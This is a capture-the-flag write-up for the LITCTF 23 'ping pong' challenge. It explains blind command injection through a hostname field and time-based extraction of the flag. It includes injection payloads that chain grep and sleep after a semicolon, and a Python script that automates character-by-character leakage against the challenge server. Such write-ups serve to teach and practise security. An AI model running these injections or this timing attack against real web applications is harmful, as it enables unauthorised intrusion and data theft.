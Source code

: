 # LITCTF 23

LITCTF 23 code + writeup

so basically
for ping pong undermaintance
if u look at the source code
u realize that the function to excute a command is also called
this means we can still use command injection
however looking at how the page is rendered
we see that no output from the excuted command will be printed
this means we must use some other way to get information
at first i thought that i could modify the html to add the flag into the bottom
this way
the flag would render at the bottom of the screen
however i believe some commands are blocked such as rm as it would ruin the infrastructure

after a lot of thinking and testing
i found that the sleep command works
and causes the page longer to load results
this means that a timing attck is possible

so we must find a way to set different times for testing if a string is in the flag or not
we can use the payload

```bash
grep LITCTF{text flag.txt || sleep $?
```

using this commmand we also avoid using url encoded character which would not work in our command

testing this command out we can see that a proper prefix such as LITCTF causes the website to load almost instantly
however if we dont use a substring such at adsklfjhlkasjdfhkl it would cause the website to take over a second to load

now that we have this command 

we can test the prefix one character at a time

setting up a python program we can send post request to the website testing the prefixes
finding which character takes the least amount of time
appending that to the known prefix and then testing the next character
we end this once we get the closing brace

and here is the python script to send injections 

```py
import requests
import string

charlist = string.ascii_lowercase+string.digits+"_}"
print(charlist)


text = "LITCTF{"

url = 'http://34.130.180.82:59880/'

headers = {
    'Host': url,
    # 'Content-Length': '11',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': url,
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': url,
    # 'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}

data = {
    'hostname': 'hi',
}



while True:
    ti = dict();
    for x in charlist:
        ti[x] = 0

    for x in charlist:
        teststr = text+x
        injection = f";grep -q {teststr} flag.txt || sleep $(($?*1))"
        data = {'hostname': injection}
        req = requests.post(url, headers=headers, data=data)
        print(teststr,req.elapsed.total_seconds())
        ti[x] = req.elapsed.total_seconds()
    
    bestchr = ""
    besttime = 1000
    for x in charlist:
        if(ti[x] < besttime):
            besttime = ti[x]
            bestchr = x
    text+=bestchr
    print(text)
    if(bestchr == '}'): break

```

after a while of using this program
I was able to retrieve the flag

```txt
LITCTF{c4refu1_fr}
```